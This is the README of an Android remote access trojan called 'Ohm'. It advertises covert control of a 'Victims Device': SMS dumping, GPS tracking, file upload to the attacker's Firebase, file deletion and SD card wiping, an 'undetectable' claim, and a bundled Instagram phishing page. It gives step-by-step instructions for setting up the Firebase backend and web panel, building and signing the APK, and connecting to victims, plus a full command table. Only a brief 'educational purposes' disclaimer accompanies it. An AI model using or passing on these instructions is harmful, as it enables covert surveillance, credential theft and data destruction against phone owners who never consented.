




<h1 align='center'>Ω</h1>

<h2 align='center'>Android RAT</h1>

#### Android RAT built in Android APP for Android User

<div align="center">

</div>

## Features
- [X] Read , Delete Internal Storage Files
- [X] Download Any Media to your Device from Victims Device
- [X] Get GPS location
- [X] Get Network Provider Location
- [X] Get all the system information of Victim Device
- [X] Shows all the installed apps in Victims Device
- [X] Open Any Website in Victims Device
- [X] Make any folder in Victims Device
- [X] Show any notification in Victims Device
- [X] Delete any File or Folder From Victims Internal Storage
- [X] Dump SMS
- [X] Play music in Victims device
- [X] Change Wallpaper
- [X] Vibrate Device 
- [X] Turn On/Off Flash Light 
- [X] Text To Speach Feature
- [X] Runs In Background Even App is Closed
- [X] Support Android v5 +
- [X] No Port Forwarding Needed
- [X] Fully Undetectable
- [X] WipeSdcard
- [X] Shows Update Page , if you want.
- [X] Pre Binded [Instagram Webview Phishing](https://gitHub.com/Th30neAnd0nly/PI)
---

## Requirements
 * Firebase Account (or you can Create one)
 * Android Device :rofl:
---

## How to use

1. After Creating a Firebase account you have to enable  Authentication , Firebase Storage , Realtime Database.
1. Make sure that you have selected USA region while creating database.
1. Now go to Authentication and at Sign In Method section enable Email/Password Method.
1. After that in Realtime Database Go to rules and set ``` .read ``` and ``` .write ``` to ```true``` 
1. Also Set Some Data in your Realtime Database as shown in image.
1. 
1. Now Go to Project Overview and add a new Android App and Download it's ```google-services.json``` file , which will contain your app's API key and other information.
1. Add another Web App and Copy it's ``` Config ``` .
1. You can setup your web panel on localhost or on Any Hosting Site.
1. Open ``` app.js ``` and paste the ```Config``` and save it .
1. Your Web Panel is ready now let's build the App.
1. Download [Sketchware Pro](https://www.mediafire.com/file/989up6hj5i89kak/Sketchware_Pro_6.3.0_fix1.apk/file)
1. Click on Restore option and select  ``` Instagram Mod.swb ``` file in Sketchware Pro
1. Now open the project and in Library Menu  go to  Firebase Section and fill all the data using ```google-services.json``` file.
1. In Project ID Field after putting your Project Name add ``` -default-rtdb``` . Example > myproject```-default-rtdb```
1. 
1. Now click on **Run** to Build the App , use any APK Signer Tool to sign it.
1. You app is Now ready.
1. When user will install the app his/her session will appear on Web Panel click on the User to establish Connection with that specified Device.

<!--
# Tutorial Video
* [Get the Tutorial Video](https://www.fiverr.com/s2/bad969ffcc)
-->

### Tutorial Video
Part 1 | Part 2
-------|------
 [](https://th30neand0nly.github.io/Ohm/images/part1.mp4) | [](https://th30neand0nly.github.io/Ohm/images/part2.mp4)

 Credits: Linuxndroid 

---

## List of Commands

Command | Definition | Example and Usage
--------|------------|---------
openfolder * <FOLDER_DIR> | This will Show the contents of Folder | ```openfolder * /sdcard/DCIM ```
uploadfile * <FILE_DIR> | This will Upload File To Firebase Storage From Device | ``` uploadfile * /sdcard/DCIM/Camera/image.png```
deletefile * <FILE_DIR> | This Will delete the specific file or folder | ```deletefile * /sdcard/DCIM/Camera/image.png```
makefolder * <FILE_DIR> | This will create a Folder | ```makefolder * /sdcard/My Folder/```
shownotify * <YOUR_MSG> | This will show notification | ```shownotify * Your Message```
openweburi * <YOUR_URI> | This will open external URL | ```openweburi * https://github.com/Th30neAnd0nly/Ohm```
playsmusic * <EXACT_MUSIC_URL> | This will play the music in Victims Device from the given music URL | ```playsmusic * https://www.soundhelix.com/examples/mp3/SoundHelix-Song-1.mp3```
vibratedevice * <TIME_IN_MS> | Vibrates the victims Device for 'x' milliseconds | ``` vibratedevice * 500```
speachtext * <YOUR_MSG> | This will Use Text To Speach to output your message | ``` speachtext * How are You```
deviceflashon | Turns on the flash light of device | ```deviceflashon```
deviceflashoff | Turns of the flash light of victims Device | ```deviceflashoff```
changewallpaper | Changes the device wallpaper to [this](https://github.com) | ``` changewallpaper```
internaldir | Shows the Internal Storage files and Folders | ```internaldir```
installedapps | Shows the package name of all the installed apps | ```installedapps```
sysinfo | Shows The System Information | ```sysinfo```
dumpsms | Dumps all the SMS and uploads file to Firebase Storage | ```dumpsms```
showphishdata | Shows the Phished Credentials of  [Instagram](https://github.com/Th30neAnd0nly/PI) |  ```showphishdata```
getgpslocation | Shows the GPS location | ```getgpslocation```
getnetworklocation | Shows the Network Location | ```getnetworklocation```
help | Shows all the commands | ``` help```
clear | Clears the Web Terminal | ```clear```


---

# Made with :heart: in Sketchware
<!-- 
* Thanks to [Modder Team](https://discord.gg/p7D5Nt687K) of Sketchware Pro For adding new features in Official Sketchware.
-->
---

### ❤️Supporters❤️
[](https://github.com/Th30neAnd0nly/Ohm/stargazers)

[](https://github.com/Th30neAnd0nly/Ohm/network/members)

## DISCLAIMER
<p align="center">
 TO BE USED FOR EDUCATIONAL PURPOSES ONLY
</p>


The use of the OHM is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program. Please read [LICENSE](LICENSE).


